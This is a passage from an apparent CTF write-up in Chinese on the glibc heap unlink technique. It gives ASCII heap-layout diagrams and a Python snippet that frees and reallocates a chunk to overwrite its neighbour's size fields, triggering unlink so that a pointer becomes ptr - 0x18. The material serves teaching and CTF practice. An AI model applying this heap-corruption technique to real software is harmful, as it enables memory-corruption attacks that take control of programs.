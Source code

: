 ```
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           圖1
```

#### 釋放 chunk1-覆蓋 chunk2-釋放 chunk2

對應的代碼如下

```python
# edit the chunk1 to overwrite the chunk2
deletenote(1)
content = 'a' * 16 + p64(0xa0) + p64(0x90)
newnote(0, content)
# delete note 2 to trigger the unlink
# after unlink, ptr[0] = ptr - 0x18
deletenote(2)
```

首先釋放 chunk1，由於該chunk屬於fastbin，所以下次在申請的時候仍然會申請到該chunk，同時由於上面所說的類型問題，我們可以讀取任意字符，所以就可以覆蓋chunk2，覆蓋之後如圖2所示。

```
                                   +-----------------+high addr
                                   |      ...        |
                                   +-----------------+
                                   |   '\x00'+'b'*7  |
                ptr[2]-----------> +-----------------+ chunk 2
                                   |    size=0x90    |
                                   +-----------------+
                                   |    0xa0         |
                                   +-----------------|------------
                                   |    'a'*8        |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+ chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
                                   |    unused       |
                                   +-----------------+
                                   |  prev_size=0x60 |
fake ptr[0] chunk's nextchunk----->+-----------------+
                                   |    64*'a'       |
                                   +-----------------+
                                   |    fakebk       |
                                   +-----------------+
                                   |    fakefd       |
```